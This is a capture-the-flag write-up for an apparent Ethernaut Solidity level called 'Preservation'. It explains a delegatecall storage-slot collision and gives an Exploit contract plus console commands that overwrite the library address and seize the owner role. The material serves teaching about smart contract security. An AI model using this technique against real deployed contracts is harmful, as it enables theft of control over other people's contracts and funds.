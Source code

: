 # 16. Preservation
<sup>Difficulty 8/10</sup>

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for `delegatecall` to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

## Solution

We need to take the ownership of the contract. What could we do? 
Preservation contract uses `delegatecall` function to update the `storedTime` variable.

```solidity
contract Preservation {

  // public library contracts 
  address public timeZone1Library; 
  address public timeZone2Library;
  address public owner; 
  uint storedTime;

  [...]

  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  [...]
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;                          

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

The problem between these two contracts resides in the variable declaration order:

**Preservation:**

| Slot | Variable         |
|:-----|:-----------------|
| 0    | timeZone1Library |
| 1    | timeZone2Library |
| 2    | owner            |
| 3    | storedTime       |

**LibraryContract:**

| Slot | Variable         |
|:-----|:-----------------|
| 0    | storedTime       |

Since we're updating the `LibraryContract.storedTime` variable which has slot 0, when we call `setFirstTime` or `setSecondTime` functions using `delegatecall` we'll update also `Preservation` slot 0 variable. Due to the misalignment of the variable declaration between the two contracts, we can update the `timeZone1Library` address.

We can create a contract that implement the `setTime(uint)` function to update the owner:

```solidity 
//SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract Exploit {
  address public timeZone1Library; 
  address public timeZone2Library;
  address public owner;
  uint public timeToSet;
  function setTime(uint) public {
    owner = 'OUR ADDRESS'; 
  }
  function getTimeFromAddress(address _addr) public {
    timeToSet = uint(_addr);
  }
}
```

Now, we have to deploy the contract and via the `getTimeFromAddress` function we can retrieve the integer time we have to pass to `setTime` function of the `Preservation` contract.

```javascript
await contract.timeZone1Library()
// -> '0x7Dc17e761933D24F4917EF373F6433d4a62fe3c5'
await contract.setSecondTime('1326533402067413743625077578661884369641532361693')
await contract.timeZone1Library()
// -> '0xe85Bd0a4C4Ae7E2eF7641eeB7550047E4D210Bdd'  // which is our deployed contract
await contract.owner() == player
// -> false
await contract.setFirstTime(123) // We need to perform a call to the first library address which now points to an our controlled contract
await contract.owner() == player
// -> true
```

In depth information here: [Smart Contract Hacking Chapter 7 - Delegate Call Attack Vectors](https://console-cowboys.blogspot.com/2020/10/smart-contract-hacking-chapter-7.html)

## OZ Corner

As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.